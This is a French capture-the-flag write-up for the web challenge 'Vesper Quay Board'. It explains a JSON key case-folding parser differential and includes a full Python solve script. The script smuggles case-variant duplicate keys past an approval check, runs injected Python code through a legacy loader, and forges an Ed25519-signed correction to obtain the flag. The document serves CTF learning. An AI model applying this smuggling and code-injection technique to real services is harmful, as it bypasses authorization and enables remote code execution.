



# Writeup : chronos-vesper-quay-board

Catégorie : web

Date de résolution : 2026-11-07

Technique principale : JSON key case-folding/parser differential; Ed25519 RFC8785 signing via legacy release

Outils observés : requests, curl, CTFd API

Cible : w01.ctf.chronos-security.ro:38586

## Présentation

Ce document est construit à partir de la mémoire CTF partagée et des artefacts conservés dans /root/ctf/chronos-vesper-quay-board. Les étapes ci-dessous reprennent uniquement les faits observés. Les captures sont réalisées sur les fichiers locaux, sans rejouer une action distante ou destructive.

## Analyse et raisonnement

### Exploitation

courier=legacy + Courier=approved; argv=[-c, signer code] + Argv=[status]; correction signature obtenue via STATION_SIGN avec applied_primary=false

### Pourquoi ça marche

Une clé JSON à casse variante peut être vue par un decoder Go de struct mais ignorée par un parseur exact-key aval; exploiter la divergence pour sélectionner le release legacy puis signer le message canonique fourni par le challenge.

### Pièges

La signature appartient à la vraie soumission et doit utiliser applied_primary=false car loader=legacy; ne pas réutiliser signature/IDs d’une autre tentative.

### Notes locales conservées

# Vesper Quay Board :  CTFd #9116

## Triage / recon
1. Cible explicitement active : `http://w01.ctf.chronos-security.ro:38586`; service `Vesper-Desk/1.4`, HTML du duty desk et `/v1/openapi.json`.
2. Aucun binaire/attachment proposé (`files=[]` via CTFd); flag aléatoire `CSCTF{...}` obtenu uniquement après correction acceptée.
3. Warrant `/v1/warrants/current`: quay `QY-2D36`, warrant `WR-2CF8`, lane `basin-cut`, fingerprint/shift `c0141b65aba364ee`, courier desk `c-db1755`, legacy quay `c-782f97`.
4. OpenAPI: desk accepte courier approuvé et argv `[]`/`["status"]`; body brut transmis au quay, qui parse les clés exactes et lance `python3 -I` seulement pour courier legacy + argv `['-c', code]`.
5. `STATION_SIGN` signe en Ed25519 les octets RFC 8785 de `{applied_primary,courier_id,quay_id,submission_id,warrant_id}`; Base64 standard. Signature 64 bytes.

## Hypothèses vérifiées
1. Confirmée :  divergence de parsing JSON : decoder Go côté desk accepte les variantes de casse des noms de champs; le parseur du quay ne lit que les noms exacts minuscules.
2. Confirmée :  signer disponible au child : le release legacy expose via env l’exécutable station signer et les identifiants liés à la soumission; le child peut signer le message canonique de correction.
3. Écartée :  correction primary : loader exécuté est `legacy`, donc `applied_primary=false` requis.

## Exploit réel
9. POST warrant contenant `courier=legacy`, `Courier=approved`, `argv=["-c", code]`, `Argv=["status"]`.
10. Desk preview: approved/status. Quay: legacy/-c; exécution confirmée `loader_status=ok`.
11. Le code Python isolé signe avec `STATION_SIGN` les valeurs provenant de l’environnement de cette exécution. POST `/v1/corrections` avec le message et `signature` retourne un clearance code.
12. Script reproductible : `python3 solve.py http://w01.ctf.chronos-security.ro:38586`.

## Flag et soumission
13. Clearance code réellement retourné par `/v1/corrections`: `CSCTF{BRLkCM9cSp8WBDiZbtuo6LV5}`.
14. Soumission CTFd #9116 avec le cookie fourni: réponse `{"status":"correct","message":"Correct"}`.
15. Vérification `/api/v1/challenges/9116`: `solved_by_me=true`, `attempts=1`.
16. Aucune demande de création, aucun reset et aucun autre container touché.

## Commandes utiles

Les commandes suivantes consultent les preuves locales et sont sans effet de bord :

```bash
cd /root/ctf/chronos-vesper-quay-board
file notes.md solve.py 2>/dev/null
sed -n '1,180p' notes.md 2>/dev/null
sed -n '1,120p' solve.py 2>/dev/null
sed -n '1,10p' flags.txt 2>/dev/null
```

## Script de résolution complet

Le script conservé sous `solve.py` est reproduit ci-dessous sans modification :

```python
#!/usr/bin/env python3
"""Exploit Vesper Quay Board #9116; usage: python3 solve.py http://host:port"""
import base64
import json
import sys

import requests

if len(sys.argv) != 2:
    raise SystemExit(f"usage: {sys.argv[0]} http://<instance>:<port>")
base = sys.argv[1].rstrip("/")

# Go's struct decoder matches these case-insensitively; the quay's exact-key
# parser ignores them. Thus the desk sees approved/status, while quay sees
# legacy/-c. The legacy loader runs the short Python program in isolation.
code = r'''import os,json,subprocess,base64
obj={"applied_primary":False,"courier_id":os.environ["COURIER_ID"],"quay_id":os.environ["QUAY_ID"],"submission_id":os.environ["SUBMISSION_ID"],"warrant_id":os.environ["WARRANT_ID"]}
canonical=json.dumps(obj,sort_keys=True,separators=(",",":"),ensure_ascii=False).encode()
sig=subprocess.run([os.environ["STATION_SIGN"]],input=canonical,stdout=subprocess.PIPE,check=True).stdout
print(json.dumps({"object":obj,"signature":base64.b64encode(sig).decode()}))'''
body = json.dumps({
    "courier": "c-782f97", "Courier": "c-db1755",
    "argv": ["-c", code], "Argv": ["status"],
}, separators=(",", ":"))

r = requests.post(base + "/v1/warrants", data=body,
                  headers={"Content-Type": "application/json"}, timeout=10)
r.raise_for_status()
submission = r.json()
print("warrant:", json.dumps(submission, separators=(",", ":")))
if submission.get("quay", {}).get("loader_status") != "ok":
    raise SystemExit("legacy release did not execute")
signed = json.loads(submission["quay"]["loader_stdout"])
obj = signed["object"]
correction = {**obj, "signature": signed["signature"]}
r = requests.post(base + "/v1/corrections", json=correction, timeout=10)
r.raise_for_status()
result = r.json()
print("correction:", json.dumps(result, separators=(",", ":")))
flag = result.get("clearance_code", "")
if not (flag.startswith("CSCTF{") and flag.endswith("}")):
    raise SystemExit("clearance code absent or malformed")
print("FLAG:", flag)
```

## Captures du terminal

Les captures utilisent le terminal natif xterm disponible sur l’environnement, avec le prompt réel `root@vmi3694110`, le dossier courant du challenge et une géométrie identique. Elles montrent successivement l’analyse locale, le script ou les preuves de résolution, puis le flag conservé.







## Validation et flag

La mémoire partagée indique une validation CTFd correcte ou déjà validée.

Flag obtenu : `CSCTF{BRLkCM9cSp8WBDiZbtuo6LV5}`

## Conclusion

La résolution repose sur la faiblesse indiquée dans la technique principale, puis sur la vérification locale du résultat conservé. Le flag final ci-dessus est copié depuis la preuve locale réellement présente.
